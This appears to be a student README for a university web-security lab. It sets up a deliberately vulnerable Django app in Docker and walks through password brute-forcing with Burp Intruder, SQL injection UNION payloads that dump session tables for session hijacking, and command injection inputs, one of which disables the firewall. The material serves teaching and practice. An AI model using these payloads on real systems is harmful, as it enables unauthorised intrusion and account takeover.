 # CN351-webSec

## SetUp project in visual machine
1. Clone project from github to `/home/kali/`
2. Install docker and docker-compose
```bash
$ sudo apt install docker.io
$ sudo systemctl enable docker --now
$ sudo usermod -aG docker $USER

$ sudo apt install docker-compose
```
3. Run docker-compose up -d
```bash ~/CN351-webSec
$ docker-compose up -d
```
4. setup requirement
```bash ~/CN351-webSec
$ sudo apt install pkg-config
$ sudo apt install python3-venv
$ sudo apt install python3-dev

$ python3 -m venv .venv
$ source .venv/bin/activate
$ pip install -r requirements.txt
```
5. change database HOST <br>
    -- comment 'HOST': '127.0.0.1', <br>
    -- uncomment new HOST <br>
6. add service to `/etc/systemd/system`
```bash
$ sudo cp cn351.service /etc/systemd/system
```
7. enable service
```bash
$ sudo systemctl deamon-reload
$ sudo systemctl enable cn351
$ sudo systemctl start cn351
```

## Password Guessing
1. Open Burp Suit in kali-destop
2. Try to guess username and password in target web application
3. Check a HTTP history in Burp Suit
4. Send HTTP Resposonse to Intruder
5. Select a username or password to bruce force guessing
6. Add payload with seclists (lists of word guessing)
```bash
$ sudo apt install seclists
```
7. Observe and select a differ output to use as a password

## SQL Injection
1. Go to http://<target-ip/domain>/?search=
2. Try to search with SQL Injection Example:
```url
/?search=' UNION SELECT table_schema,  table_name, NULL, NULL, NULL FROM information_schema.table_constraints;
/?search=' UNION SELECT *, NULL, NULL FROM db_websec.django_session;
```
3. Change sessionid to sessionid in django_session table

## Command Injection
1. Go to http://<target-ip/domain>/logging/?search=
2. Try to search with Command Injection Example:
```input
200 && echo $USER
```
```input
302 && systemctl list-units --type=service
```
```input
404 && ufw disable
```

## Group Member
1. 6410615022   ชัญญานุช จำนงนิตย์
2. 6410615113   พิชชากานต์ ลีพุด
3. 6410685215	พชรพล ทัพผักแว่น
